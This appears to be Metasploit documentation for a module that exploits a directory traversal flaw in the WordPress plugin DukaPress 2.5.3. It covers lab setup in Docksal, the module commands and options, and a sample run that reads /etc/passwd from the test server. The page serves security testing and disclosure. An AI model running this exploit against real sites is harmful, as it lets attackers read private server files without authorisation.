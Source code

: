 ## Description

This module exploits a directory traversal vulnerability in WordPress Plugin
"DukaPress" version 2.5.3, allowing to read arbitrary files with the
web server privileges.

## Vulnerable Application

### Wordpress with installed DukaPress <= 2.5.3
* [https://wordpress.org/plugins/dukapress](https://wordpress.org/plugins/dukapress)
* [Plugin v2.5.3](https://downloads.wordpress.org/plugin/dukapress.2.5.3.zip)

### Setup using Docksal
Install [Docksal](https://docksal.io/)

Create a new Wordpress installation using `fin project create`

```
fin project create
1. Name your project (lowercase alphanumeric, underscore, and hyphen): msf-wp

2. What would you like to install?
  PHP based
    1.  Drupal 8
    2.  Drupal 8 (Composer Version)
    3.  Drupal 7
    4.  Wordpress
    5.  Magento
    6.  Laravel
    7.  Symfony Skeleton
    8.  Symfony WebApp
    9.  Grav CMS
    10. Backdrop CMS

  Go based
    11. Hugo

  JS based
    12. Gatsby JS
    13. Angular

  HTML
    14. Static HTML site

Enter your choice (1-14): 4

Project folder:   /home/weh/dev/msf-wp
Project software: Wordpress
Project URL:      http://msf-wp.docksal

Do you wish to proceed? [y/n]: y
Cloning repository...
Cloning into 'msf-wp'...
...
3. Installing site
 Step 1  Initializing stack...
Removing containers...
...
Starting services...
Creating network "msf-wp_default" with the default driver
Creating volume "msf-wp_cli_home" with default driver
Creating volume "msf-wp_project_root" with local driver
Creating volume "msf-wp_db_data" with default driver
Creating msf-wp_db_1  ... done
Creating msf-wp_cli_1 ... done
Creating msf-wp_web_1 ... done
Connected vhost-proxy to "msf-wp_default" network.
Waiting for project stack to become ready...
 Step 2  Initializing site...
 Step 2  Generating wp-config.php...
Success: Generated 'wp-config.php' file.
 Step 3  Installing site...
msmtp: envelope-from address is missing
Success: WordPress installed successfully.

Open http://msf-wp.docksal in your browser to verify the setup.
Admin panel: http://msf-wp.docksal/wp-admin. User/password: admin/admin  
 DONE!  Completed all initialization steps.
```

Download the wordpress plugin

```
cd msf-wp/wp-content/plugins
wget https://downloads.wordpress.org/plugin/dukapress.2.5.3.zip
unzip dukapress.2.5.3.zip

```

Login and click on DukaPress "Activate" Link

```
http://msf-wp.docksal/wp-admin/plugins.php
user: admin
pass: admin
```

## Verification Steps

1. Do: ```use auxiliary/scanner/http/wp_dukapress_file_read```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set VHOST [HOSTNAME]```
4. Do: ```run```

## Options

**FILEPATH**

The path to the file to read (default: `/etc/passwd`)

**DEPTH**

Traversal Depth (to reach the root folder) (default: `7`)


## Scenarios

### Wordpress 5.2 running in Docksal

Follow the Instructions above to setup the Docksal Containers.

````
msf5 > use auxiliary/scanner/http/wp_dukapress_file_read
msf5 > set RHOST msf-wp.docksal
RHOST => msf-wp.docksal
msf5 > set VHOST msf-wp.docksal
VHOST => msf-wp.docksal
msf5 > run

[*] Downloading file...

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/bin/false
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
docker:x:1000:1000::/home/docker:/bin/bash

[+] File saved in: /home/weh/.msf4/loot/20191009203058_default_192.168.64.100_dukapress.file_560342.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
